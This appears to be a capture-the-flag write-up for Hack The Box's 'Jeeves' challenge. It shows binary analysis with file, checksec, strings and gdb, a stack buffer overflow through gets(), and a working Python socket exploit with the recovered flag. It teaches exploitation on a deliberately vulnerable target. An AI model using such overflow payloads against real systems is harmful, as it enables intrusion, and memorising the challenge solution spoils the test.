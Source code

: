 ```yaml
---
Title: Jeeves
Date:   2021-04-16
Category: Pwn
Difficulty: Easy
Challenge Creator: MinatoTW
---
```


## Overview
This challenge is part of Hack The Box's Intro to Binary Exploitation track and, while not particularly difficult, serves as a good introduction to practice some fundamental concepts. In this example we cover some common file analysis techniques, disassemble an executable using gdb, and perform basic byte manipulation and network programming with python 3.


## File Analysis
After downloading and extracting the file, we can begin by running `file` to better understand what this file is. The result shows that the file is a x86-64 linux unstripped executable.
```
$file jeeves
jeeves: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=18c31354ce48c8d63267a9a807f1799988af27bf, for GNU/Linux 3.2.0, not stripped

```
Next we'll run `checksec` to see what kind of protections the executable has. In this case, there are no stack canaries that we need to be concerned about overwritting, but ASLR (PIE) is enabled and the NX flag tells us that the stack is marked as non-executable.
```
$checksec --format=json --file=jeeves
{
   "jeeves":{
      "relro":"full",
      "canary":"no",
      "nx":"yes",
      "pie":"yes",
      "rpath":"no",
      "runpath":"no",
      "symbols":"yes",
      "fortify_source":"no",
      "fortified":"0",
      "fortify-able":"3"
   }
}
```
We can also quickly run `strings` to see if there is anything of note. Below we can see what looks to be a prompt, and a `flag.txt` file near some formatting flags `%s`, so perhaps we can get the program to pring the contents of flag.txt somehow.
```
$strings jeeves
...[truncated]...
Hello, good sir!
May I have your name? 
Hello %s, hope you have a good day!
flag.txt
Pleased to make your acquaintance. Here's a small gift: %s
...[truncated]...
```
Since the executable is not stripped, we can disassemble the executable by `disass main` in gdb. The starred line in the output below shows a comparison of the value at `rbp-4` to `0x1337bab3`. If this comparison fails, the application jumps to `main+191` where it exits. If the comparison succeeds, the application eventually calls `open`, `read`, and `print`, which may be associated with the `flag.txt` we found earlier.
```m
(gdb) disass main
Dump of assembler code for function main:
   0x00000000000011e9 <+0>:	endbr64 
   0x00000000000011ed <+4>:	push   %rbp
   0x00000000000011ee <+5>:	mov    %rsp,%rbp
   0x00000000000011f1 <+8>:	sub    $0x40,%rsp
   0x00000000000011f5 <+12>:	movl   $0xdeadc0d3,-0x4(%rbp)
   0x00000000000011fc <+19>:	lea    0xe05(%rip),%rdi        # 0x2008
   0x0000000000001203 <+26>:	mov    $0x0,%eax
   0x0000000000001208 <+31>:	call   0x10a0 <printf@plt>
   0x000000000000120d <+36>:	lea    -0x40(%rbp),%rax
   0x0000000000001211 <+40>:	mov    %rax,%rdi
   0x0000000000001214 <+43>:	mov    $0x0,%eax
   0x0000000000001219 <+48>:	call   0x10d0 <gets@plt>
   0x000000000000121e <+53>:	lea    -0x40(%rbp),%rax
   0x0000000000001222 <+57>:	mov    %rax,%rsi
   0x0000000000001225 <+60>:	lea    0xe04(%rip),%rdi        # 0x2030
   0x000000000000122c <+67>:	mov    $0x0,%eax
   0x0000000000001231 <+72>:	call   0x10a0 <printf@plt>
***0x0000000000001236 <+77>:	cmpl   $0x1337bab3,-0x4(%rbp)
   0x000000000000123d <+84>:	jne    0x12a8 <main+191>
   0x000000000000123f <+86>:	mov    $0x100,%edi
   0x0000000000001244 <+91>:	call   0x10e0 <malloc@plt>
   0x0000000000001249 <+96>:	mov    %rax,-0x10(%rbp)
   0x000000000000124d <+100>:	mov    $0x0,%esi
   0x0000000000001252 <+105>:	lea    0xdfc(%rip),%rdi        # 0x2055
   0x0000000000001259 <+112>:	mov    $0x0,%eax
   0x000000000000125e <+117>:	call   0x10f0 <open@plt>
   0x0000000000001263 <+122>:	mov    %eax,-0x14(%rbp)
   0x0000000000001266 <+125>:	mov    -0x10(%rbp),%rcx
   0x000000000000126a <+129>:	mov    -0x14(%rbp),%eax
   0x000000000000126d <+132>:	mov    $0x100,%edx
   0x0000000000001272 <+137>:	mov    %rcx,%rsi
   0x0000000000001275 <+140>:	mov    %eax,%edi
   0x0000000000001277 <+142>:	mov    $0x0,%eax
   0x000000000000127c <+147>:	call   0x10c0 <read@plt>
   0x0000000000001281 <+152>:	mov    -0x10(%rbp),%rax
   0x0000000000001285 <+156>:	mov    %rax,%rsi
   0x0000000000001288 <+159>:	lea    0xdd1(%rip),%rdi        # 0x2060
   0x000000000000128f <+166>:	mov    $0x0,%eax
   0x0000000000001294 <+171>:	call   0x10a0 <printf@plt>
   0x0000000000001299 <+176>:	mov    -0x14(%rbp),%eax
   0x000000000000129c <+179>:	mov    %eax,%edi
   0x000000000000129e <+181>:	mov    $0x0,%eax
   0x00000000000012a3 <+186>:	call   0x10b0 <close@plt>
   0x00000000000012a8 <+191>:	mov    $0x0,%eax
   0x00000000000012ad <+196>:	leave  
   0x00000000000012ae <+197>:	ret    
End of assembler dump.
```

## Exploitation
We can start by trying to get the comparison to pass and seeing what happens. To do this, we need to write the value 0f `0x1337bab3` into memory at `rbp-4`. If we take a closer look at lines `main+8` and `main+12` in the instructions above, we see that the stack size is is `0x40 (64 bytes)` to `rsp`, and that the value currently stored at `rbp-4` is `0xdeadc0d3`. This means that to overwrite this value we need a buffer of 60 bytes plus our four byte value. Testing this locally gives an interesting prompt that looks promising.

```
$python3 -c "import sys;sys.stdout.buffer.write(b'A' * 60 + b'\xb3\xba\x37\x13')" | ./jeeves 
Hello, good sir!
May I have your name? Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��7, hope you have a good day!
Pleased to make your acquaintance. Here's a small gift: 
```

Note that since we're using python 3 we want to use bytes, and when writing to the terminal we use `sys.stdout.write()` instead of `print()`. Additionally, we write `1337bab3` as `\xb3\xba\x37\x13` to account for the little endian byte ordering of x86 architecture. Consider the following variations of this code and the corresponding hexdumps. Note that example 1 almost gives the correct output, but due to unicode encoding we end up with some extra bytes. Example 2 attempts to convert this to bytes, but we once again end up with the wrong values due to encoding from python 3's `print()`. In example 3 we skip `print()` altogether and send our bytes directly to `sys.stdout.write()` to avoid annoying string manipulation. Luckily this isn't an issue when we send our payload over a network connection, which we will do when creating out remote exploit.

```
Example 1

$python3 -c "print('A' * 60 + '\xb3\xba\x37\x13')" > payload
$hexdump payload
0000000 4141 4141 4141 4141 4141 4141 4141 4141
*
0000030 4141 4141 4141 4141 4141 4141 b3c2 bac2
0000040 1337 000a                              
0000043

Example 2

$python3 -c "print(b'A' * 60 + b'\xb3\xba\x37\x13')" > payload
$hexdump payload
0000000 2762 4141 4141 4141 4141 4141 4141 4141
0000010 4141 4141 4141 4141 4141 4141 4141 4141
*
0000030 4141 4141 4141 4141 4141 4141 4141 785c
0000040 3362 785c 6162 5c37 3178 2733 000a     
000004d

Example 3

$python3 -c "import sys;sys.stdout.buffer.write(b'A' * 60 + b'\xb3\xba\x37\x13')" > payload
$hexdump payload
0000000 4141 4141 4141 4141 4141 4141 4141 4141
*
0000030 4141 4141 4141 4141 4141 4141 bab3 1337
0000040
```

## Full Implementation (Python 3.9)
```python
#!/usr/bin/python3

import socket

# Create a TCP connection
client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

# Connect to the remote host running the application
client.connect(('139.59.178.146', 31974))

# Craft the payload we tested plus '\n' to denote the
# the end of our input
payload = b'A' * 60 + b'\xb3\xba\x37\x13\n'

# Send the payload to the remote host
client.send(payload)

# Receive the response and print it
response = client.recv(4096)
print(response)

# Close the TCP connection
client.close()

```
```
$./exploit.py 
b"Hello, good sir!\nMay I have your name? Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xb3\xba7\x13, hope you have a good day!\nPleased to make your acquaintance. Here's a small gift: HTB{w3lc0me_t0_lAnd_0f_pwn_&_pa1n!}\n\n"
```
